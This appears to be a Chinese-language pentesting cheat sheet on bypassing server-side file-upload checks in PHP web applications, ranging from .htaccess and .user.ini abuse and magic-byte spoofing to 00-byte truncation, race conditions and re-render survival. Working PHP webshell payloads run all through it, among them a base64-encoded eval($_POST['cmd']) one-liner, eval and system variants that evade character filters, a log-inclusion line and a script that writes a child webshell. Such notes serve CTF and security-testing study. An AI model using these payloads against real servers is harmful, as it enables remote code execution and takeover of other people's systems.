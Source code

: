 ## **后端校验文件上传绕过**

### **1. 后端文件后缀校验**
#### 后端白名单后缀校验：
```
后端白名单校验图片后缀代码：
in_array($str,["png","jpg","gif"])
```
本地把.php后缀修改为.png绕过上传，但是.png不会当php脚本解析。
解决：
**1.apache有控制配置文件.htaccess**
>php服务器apache有控制配置文件.htaccess，在一个目录下有了.htaccess文件，
可以通过.htaccess文件里配置实现：网页301重定向，自定义404错误页面，修改解析文件扩展名，配置默认文档，禁止显示文件目录列表等。

> 一种配置是`php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"`  这是Apache配置指令，用于设置PHP的`auto_prepend_file`指令。`auto_prepend_file`指令指定了一个PHP文件，该文件将在每个PHP脚本执行之前自动被包含和执行。这里指定的文件是一个使用PHP协议的伪URL，它首先对`poc.jpg`文件进行Base64解码，然后包含解码后的内容作为PHP代码执行。
一句话木马密码cmd：
GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==



>绕过php的exif_imagetype()，可以加个文件头，#正好被当做XBM图片的文件开头
#define width 1337 
#define height 1337



可以尝试上传自定义的.htaccess文件到文件上传目录，实现当前目录的png文件当php脚本解析。
.htaccess文件内容:
```
AddType application/x-httpd-php .png
```
应用：<https://www.cnblogs.com/Article-kelp/p/16097100.html#:~:text=%E8%BF%87%E7%A8%8B.%20%E6%89%93%E5%BC%80%E9%A2%98%E7%9B%AE%E5%B0%B1%E8%83%BD>


**2.利用中间件解析漏洞。**

**3.更广的.user.ini**
它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。
但是需要上传的目录有一个index.php了，原因：.user.ini中auto_prepend_file=shell.jpg会在执行index.php前把shell.jpg包含进来。
<https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html>
```
GIF89a
auto_prepend_file=shell1.jpg
```
访问index.php即可。

^
#### 后端黑名单后缀校验：
```
后端黑名单校验图片后缀代码：
in_array($str,["php","jsp","asp"])

php服务器apache默认ph文件后缀当php脚本解析的，开发者没有考虑到而遗漏
把.php后缀改为以下：
phtml  >  php3  >  php3p php4 phps php5 pht phar

配置在apache的文件中：
<FilesMatch \.ph(p[345]?|tml)$>
    SetHandler application/x-httpd-php
</FilesMatch>

```


### **2. 后端媒体MIME类型校验**
MIME类型即为content-type : type/subtype
bp抓包修改为：image/jpeg

### **3. 后端文件头/文件校验**
>文件的文件头：文件的开头部分，其中包含有关文件的一些元信息。这些元信息可能包括文件类型、编码方式、版本信息、作者、创建日期等。文件头的内容和格式取决于文件的类型和应用程序的实现。



>vscode看文件的16进制格式插件：hexeditor,我的快捷键x+e
   浏览器看图片源码:view-source: xxx.png

常见文件格式的文件头：
```
JPEG(jpg):FFDBFF
PNG(png):89504E47
GIF : 47494638
ascii值为：GIF89
ZIP : 504B0304
rar : 52617221
pdf : 2550444620312E
xls/doc : DOCF11E0

后端校验图片文件头代码：
in_array(bin2hex($bin),["FFDBFF","89504E47","47494638"])
exif_imagetype($filename)函数通过读取文件的前几个字节来确定文件类型，并返回相应的IMAGETYPE常量
```
**绕过文件头校验：**
生成图片木马：将一句话php文件合成加入图片后面，生成合成图片png
上传合成的png，再bp改包改为php(前端校验)。或通过截断、解析漏洞等方式，将图片马以脚本的格式解析才能使图片马生效。


合成一张小图片png和php文件：
```
windows下命令：
copy pic.png/b + info.php/a  shell.png
图片以二进制的格式和php以acaii格式融合，生成shell.png文件
用16进制工具打开查看生成效果。

linux下命令:
cat追加
cat info.php >> pic.png
cat合成
cat pic.png info.php >> shell.png
echo直接追加代码
echo '<?php phpinfo(); ?>'   >>  pic.png
```
或直接抓包在POST包中，内容前加ascii值为：GIF89。
绕过exif_imagetype()函数
如
```
GIF89
<script language="php">@eval($_POST['cmd'])</script>
```

**文件内容检测禁用：**
可以先yakit跑字符看哪些字符被禁。
禁用了<?，用
```
<script language="php">@eval($_POST['cmd'])</script>
```
禁用php字符，用
```
<?= @eval($_POST['hack']); ?>
<?Php  @eval($_POST['hack']); ?>

<? echo'123';?>/ /short_open_tags=on
<?=（表达式)?> //等价于<?phpecho（表达式)？>//无限制
```
禁用[]字符，用$_POST{'1'};
```
<? @eval($_POST{'x'}); ?>
或直接执行
<? system("nl ../fla*") ?>
<?=`nl ../fl*`?>
```
配合日志包含
```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```


^
^
## **后端文件上传二次处理绕过**
### **1. 上传文件重命名**
上传文件重命名导致不能解析成php。
1. 把上传的文件名在黑名单的替换为空：
```
$name = str_ireplace("php","",$name);
str_ireplace大小写一起替换
让$name=shell.pphphp
```
2. 把上传的文件名在黑名单的替换为空字符串：
```
$name = str_replace("php"," ",$name);
让$name=shell.PHP
大小写绕过
```
### **2. 其他绕过**
<https://www.kancloud.cn/user1157546548/hw_tips/2971781>
### **3. 0:0截断**
查看phpinfo()是否php<5.3.4（老网站很多php5.2）
默认的mgic_quotes_gpc=off 没有修改
例题wp：<https://www.cnblogs.com/0yst3r-2046/p/12530316.html>
后端会将上传的文件在文件名后缀上 自定义＋.png
使用00截断后面加上的自定义.png：
```
上传的地址/+a.php%00
POST中:a.php+（%00url解码）
a.php龍龍

1.aspx%00aspx.jpg
555555.aspx%00aspx.jpg可以多加名称长度直到留下.aspx
```

### **4. 条件竞争**
后端的上传文件处理可能是先上传文件放在目录后才判断是否合规。
利用CPU处理的时间差，访问上传的木马生成子马。
上传shell后，利用还未清除的一段时间，疯狂访问shell，执行木马shell，生成子马。
```
<?php
$f=fopen("7.php","w");
fputs($f,'<?php eval($_POST[7]);?>');?>
```
一个不停上传，一个不停访问。


### **5. 二次渲染**
后端使用了图片文件头校验并对上传的图片进行二次压缩，裁剪等渲染。如php函数: imgecreatefromgif($upload);
处理后图片中尾部的php木马可能失效：直接图片马的php代码一般在底部会被压缩掉。
>vscode看文件的16进制格式插件：hexeditor,我的快捷键x+e
   浏览器看图片源码:view-source: xxx.png


解决：在图片中部插入php脚本
1. 自己写入
2. 用别人写入好的图片和密码 


^
### **其他自定义截断**
如*号截断
```
filename="shell1.php*.png"
```
